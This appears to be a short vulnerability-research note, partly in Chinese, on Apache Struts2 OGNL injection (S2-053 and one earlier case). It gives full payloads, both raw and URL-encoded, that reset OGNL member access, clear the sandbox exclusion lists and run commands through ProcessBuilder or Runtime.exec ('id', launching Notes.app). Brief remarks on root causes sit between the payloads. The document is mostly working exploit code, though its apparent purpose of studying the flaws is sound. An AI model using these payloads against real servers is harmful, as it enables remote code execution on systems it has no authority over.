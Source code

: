 ### payload
```js
name=${(#glassy='multipart/form-data').(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#a=(new java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}&age=11&__checkbox_bustedBefore=true&description=22

%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):
 
((#container=#context['com.opensymphony.xwork2.ActionContext.container']).
 
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
 
(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).
 
(#context.setMemberAccess(#dm)))).
 
(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
```

### injection
```js
${(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#a=(new java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}
```

### result
* ActionMessage 的 key 传给 ognl.getValue
* 长亭的检测结果与注入漏洞成因无关


## s2-053

### payload
```properties
# 解码前
http://www.glassy.com/Struts2Demo_war_exploded/s2053.action?name=%25%7b(%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23a%3d(new+java.lang.ProcessBuilder(%27%2fApplications%2fNotes.app%2fContents%2fMacOS%2fNotes%27)).start())%7d

# 解码后
http://www.glassy.com/Struts2Demo_war_exploded/s2053.action?name=%{(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#a=(new+java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}
```

### injection
```js
%{(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#a=(new+java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}
```

### result
* Freemarker 标签属性中的参数值传入 ognl.getvalue 中
* 长亭的检测结果与注入漏洞成因无关